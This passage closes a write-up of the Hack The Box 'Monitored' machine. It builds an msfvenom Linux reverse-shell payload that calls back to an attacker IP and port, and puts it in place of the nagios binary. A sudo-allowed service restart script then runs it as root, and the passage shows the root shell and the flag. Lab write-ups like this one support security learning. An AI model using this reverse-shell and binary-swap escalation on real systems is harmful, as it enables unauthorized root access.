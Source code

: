 ```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Monitored]
└─$ msfvenom -p linux/x86/shell/reverse_tcp LHOST=10.10.16.17 LPORT=4444 -f elf -o nagios
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 123 bytes
Final size of elf file: 207 bytes
Saved as: nagios
```
{: .nolineno}

I transferred it to the place where the original <span style="color:#00ff91">nagios</span> was stored and Now lets start the **msfconsole** that gona catch the reverse shell when it will be triggered , Lastly run this script as root user ⏬

```bash
nagios@monitored:~$ sudo -u root /usr/local/nagiosxi/scripts/manage_services.sh restart nagios
</nagiosxi/scripts/manage_services.sh restart nagios
Job for nagios.service failed because a timeout was exceeded.
See "systemctl status nagios.service" and "journalctl -xe" for details.
nagios@monitored:~$ 
```
{: .nolineno}

I got the reverse shell in metasploit ⏬

![Image](Pasted%20image%2020240419111942.png)

Lets check the flag now 👇

```bash
root@monitored:/root# ls -al
ls -al
total 44
drwx------  8 root root 4096 Apr 19 00:00 .
drwxr-xr-x 19 root root 4096 Mar 27 10:46 ..
lrwxrwxrwx  1 root root    9 Nov 11 10:52 .bash_history -> /dev/null
-rw-r--r--  1 root root  571 Apr 10  2021 .bashrc
drwxr-xr-x  2 root root 4096 Dec  7 03:22 .cache
drwx------  4 root root 4096 Nov 11 03:54 .config
drwxr-xr-x  6 root root 4096 Jan  8 13:11 .cpan
drwx------  3 root root 4096 Nov  9 10:23 .gnupg
drwxr-xr-x  3 root root 4096 Nov 10 12:02 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
drwx------  2 root root 4096 Dec  7 01:50 .ssh
-rw-r-----  1 root root   33 Apr 19 00:00 root.txt
root@monitored:/root# cat root.txt
cat root.txt
7baaeba08119966c9ba14a0017484bc5
root@monitored:/root#
```
{: .nolineno}

I am root now !!





> If you have any questions or suggestions, please leave a comment below.
> Thank You ! 
{: .prompt-tip }
